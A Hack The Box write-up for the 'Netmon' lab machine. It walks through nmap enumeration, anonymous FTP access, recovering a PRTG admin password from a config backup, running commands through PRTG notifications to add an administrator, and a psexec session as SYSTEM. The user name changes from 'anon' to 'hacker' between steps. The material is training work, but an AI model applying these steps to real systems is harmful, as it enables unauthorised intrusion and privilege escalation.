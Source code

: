 ![Pasted image 20230720111614](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/de1a4109-7a70-4025-ad38-e3ead48a1bd0)

# Enumeration
```nmap
Nmap scan report for 10.129.96.142
Host is up (0.064s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-07-20T15:20:31
|_  start_date: 2023-07-20T15:16:22
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

NSE: Script Post-scanning.
Initiating NSE at 16:20
Completed NSE at 16:20, 0.00s elapsed
Initiating NSE at 16:20
Completed NSE at 16:20, 0.00s elapsed
Initiating NSE at 16:20
Completed NSE at 16:20, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds

```
Lots to work with here. 
- FTP looks to be just wide open from what I can tell. 
- Web service running `Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)` whatever that is... 
- SMB looks to also be possible. 

# Foothold
The FTP method allows me full access to the directory system at a user level. 
```
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
07-20-23  11:17AM                   34 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
```
User flag achieved!
Can't access the Admin directory. Will likely need a different exploit for that...

# PrivEsc
I couldn't find anything useful in the main folders, so I decided to expand my search to find hidden folders:
```ftp
ftp> dir -a:hd
200 PORT command successful.
125 Data connection already open; Transfer starting.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
07-20-23  11:16AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> 
```
Maybe I can find something interesting in ProgramData...
```
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
07-20-23  11:27AM       <DIR>          PRTG Network Monitor
226 Transfer complete.
ftp> pwd
257 "/ProgramData/Paessler" is current directory.
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
07-20-23  11:27AM       <DIR>          Configuration Auto-Backups
07-20-23  11:27AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
07-20-23  11:27AM       <DIR>          Logs (Web Server)
07-20-23  11:27AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
07-20-23  11:27AM              1641139 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp>
```
Found the config files. Now to dig.

There are lines for passwords in all the configuration files, but all are deleted except for one in `PRTG Configuration.old.bak`
```xml
...SNIP...
<dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
            <dbtimeout>

...SNIP...
```
`PrTg@dmin2018` is the password!
Going to the website, the password doesn't work...

Thinking about the file, this is a backup file and the password says 2018. The box is from a year later. Trying 2019 at the end gets me in:

![Pasted image 20230720120554](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/c97bd25c-34ff-41c1-ab03-b25645b464f5)

Woo!
I found a metasploit module for authenticated RCE early on. Now that I have a working password and username, I should be able to use it!
No joy... It looked like it was going to work too... hmmm....

No easy win. Let's look into the website a bit...

After doing some googling, I discovered there is a way to run commands from this panel on the system. I can use this to create a user.

I go to Setup > Account Settings > Notifications
From here I click the + icon and create a new notification. Leaving everything as is, select "Execute Program" and fill out the following:

![Pasted image 20230720123001](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/1cacebf3-0a15-425f-958e-7ffdf9332989)

This will add a user called anon and set the password to be `abc123!`, then add it to the local administrator group. After saving, clicking the box to the far right of the notification I made and selecting test should run the command:

![Pasted image 20230720121952](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/d9d31f70-4a21-4fa5-90f5-44dc8530839a)

![Pasted image 20230720122008](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/c8505def-4509-4b4d-b53a-a2901b1efb37)

Now I should be able to log in with those credentials:
```
psexec.py hacker:'abc123!'@10.129.96.142
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Requesting shares on 10.129.96.142.....
[*] Found writable share ADMIN$
[*] Uploading file ZeFyOUCb.exe
[*] Opening SVCManager on 10.129.96.142.....
[*] Creating service xIEb on 10.129.96.142.....
[*] Starting service xIEb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```
Netmon is PWNED!
